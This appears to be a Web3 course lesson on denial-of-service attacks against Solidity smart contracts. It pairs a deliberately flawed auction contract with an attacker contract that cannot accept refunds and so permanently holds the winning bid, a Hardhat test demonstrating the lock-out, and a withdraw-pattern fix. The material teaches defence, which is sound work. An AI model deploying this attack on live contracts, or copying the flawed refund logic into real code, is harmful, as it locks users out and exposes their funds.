 # Denial of Service

![image](https://user-images.githubusercontent.com/16539849/174761638-cf7c28d6-f654-4f5b-8fab-569ddc968941.png)


A Denial of Service (DOS) attack is a type of attack that is designed to disable, shut down, or disrupt a network, website, or service. Essentially it means that the attacker somehow can prevent regular users from accessing the network, website, or service therefore denying them service. This is a very common attack which we all know about in web2 as well but today we will try to immitate a Denial of Service attack on a smart contract

<Quiz questionId="545bcf50-01b7-43c6-9abd-d76200651f1c" />
<Quiz questionId="2273400b-2667-4462-a6e1-2076fa078f50" />

Lets goo 🚀

## DOS Attacks in Smart Contracts

### What will happen?

There will be two smart contracts - `Good.sol` and `Attack.sol`. `Good.sol` will be used to run a sample auction where it will have a function in which the current user can become the current winner of the auction by sending `Good.sol` higher amount of ETH than was sent by the previous winner. After the winner is replaced, the old winner is sent back the money which he initially sent to the contract.

`Attack.sol` will attack in such a manner that after becoming the current winner of the auction, it will not allow anyone else to replace it even if the address trying to win is willing to put in more ETH. Thus `Attack.sol` will bring `Good.sol` under a DOS attack because after it becomes the winner, it will deny the ability for any other address to becomes the winner.


### Build

Lets build an example where you can experience how the the attack happens.

- To setup a Hardhat project, Open up a terminal and execute these commands

  ```bash
  npm init --yes
  npm install --save-dev hardhat
  ```
  
- If you are not on mac, please do this extra step and install these libraries as well :)

  ```bash
  npm install --save-dev @nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers
  ```

- In the same directory where you installed Hardhat run:

  ```bash
  npx hardhat
  ```

  - Select `Create a basic sample project`
  - Press enter for the already specified `Hardhat Project root`
  - Press enter for the question on if you want to add a `.gitignore`
  - Press enter for `Do you want to install this sample project's dependencies with npm (@nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers)?`

Now you have a hardhat project ready to go!

Let's create the auction contract, named `Good.sol`, with the following code.

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

contract Good {
    address public currentWinner;
    uint public currentAuctionPrice;

    constructor() {
        currentWinner = msg.sender;
    }

    function setCurrentAuctionPrice() public payable {
        require(msg.value > currentAuctionPrice, "Need to pay more than the currentAuctionPrice");
        (bool sent, ) = currentWinner.call{value: currentAuctionPrice}("");
        if (sent) {
            currentAuctionPrice = msg.value;
            currentWinner = msg.sender;
        }
    }
}
```

This is a pretty basic contract which stores the address of the last highest bidder, and the value that they bid. Anyone can call `setCurrentAuctionPrice` and send more ETH than `currentAuctionPrice`, which will first attempt to send the last bidder their ETH back, and then set the transaction caller as the new highest bidder with their ETH value.

Now, create a contract named `Attack.sol` within the `contracts` directory and write the following lines of code

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

import "./Good.sol";

contract Attack {
    Good good;

    constructor(address _good) {
        good = Good(_good);
    }

    function attack() public payable {
        good.setCurrentAuctionPrice{value: msg.value}();
    }
}
```

This contract has a function called `attack()`, that just calls `setCurrentAuctionPrice` on the `Good` contract. Note, however, this contract does not have a `fallback()` function where it can receive ETH. More on this later.

Let's create an attack that will cause the `Good` contract to become unusable. Create a new file under `test` folder named `attack.js` and add the following lines of code to it

```javascript
const { expect } = require("chai");
const { BigNumber } = require("ethers");
const { ethers, waffle } = require("hardhat");

describe("Attack", function () {
  it("After being declared the winner, Attack.sol should not allow anyone else to become the winner", async function () {
    // Deploy the good contract
    const goodContract = await ethers.getContractFactory("Good");
    const _goodContract = await goodContract.deploy();
    await _goodContract.deployed();
    console.log("Good Contract's Address:", _goodContract.address);

    // Deploy the Attack contract
    const attackContract = await ethers.getContractFactory("Attack");
    const _attackContract = await attackContract.deploy(_goodContract.address);
    await _attackContract.deployed();
    console.log("Attack Contract's Address", _attackContract.address);

    // Now lets attack the good contract
    // Get two addresses
    const [_, addr1, addr2] = await ethers.getSigners();

    // Initially let addr1 become the current winner of the aution
    let tx = await _goodContract.connect(addr1).setCurrentAuctionPrice({
      value: ethers.utils.parseEther("1"),
    });
    await tx.wait();

    // Start the attack and make Attack.sol the current winner of the auction
    tx = await _attackContract.attack({
      value: ethers.utils.parseEther("3.0"),
    });
    await tx.wait();

    // Now lets trying making addr2 the current winner of the auction
    tx = await _goodContract.connect(addr2).setCurrentAuctionPrice({
      value: ethers.utils.parseEther("4"),
    });
    await tx.wait();

    // Now lets check if the current winner is still attack contract
    expect(await _goodContract.currentWinner()).to.equal(
      _attackContract.address
    );
  });
});
```

Notice how `Attack.sol` will lead `Good.sol` into a DOS attack. First `addr1` will become the current winner by calling `setCurrentAuctionPrice` on `Good.sol` then `Attack.sol` will become the current winner by sending more ETH than `addr1` using the attack function. Now when `addr2` will try to become the new winner, it wont be able to do that because of this check(`if (sent)`) present in the `Good.sol` contract which verifies that the current winner should only be changed if the ETH is sent back to the previous current winner.

Since `Attack.sol` doesnt have a `fallback` function which is necessary to accept ETH payments, `sent` is always `false` and thus the current winner is never updated and `addr2` can never become the current winner

To run the test, in your terminal pointing to the root directory of this level execute the following command

```bash
npx hardhat test
```

When the tests pass, you will notice that the `Good.sol` is now under DOS attack because after `Attack.sol` becomes the current winner, on other address can becomes the current winner. 

<Quiz questionId="cb1beb74-071c-4e66-af53-897663e88a0c" />

## Prevention

- You can create a seperate withdraw function for the previous winners.

Example:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

contract Good {
    address public currentWinner;
    uint public currentAuctionPrice;
    mapping(address => uint) public balances;
    
    constructor() {
        currentWinner = msg.sender;
    }

    function setCurrentAuctionPrice() public payable {
        require(msg.value > currentAuctionPrice, "Need to pay more than the currentAuctionPrice");
        balances[currentWinner] += currentAuctionPrice;
        currentAuctionPrice = msg.value;
        currentWinner = msg.sender;
    }
    
    function withdraw() public {
        require(msg.sender != currentWinner, "Current winner cannot withdraw");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

Hope you liked this level ❤️, keep building.

WAGMI 🚀

<Quiz questionId="0d64b651-3b16-4893-8486-87f3008857a1" />
<Quiz questionId="eae0a815-5407-4ba6-8194-4902ef360a54" />
<Quiz questionId="cdabfe76-94aa-4aaa-90b8-5d3df2d1aa0d" />

## Refereces
- [Solidity by example](https://solidity-by-example.org/)

<SubmitQuiz />
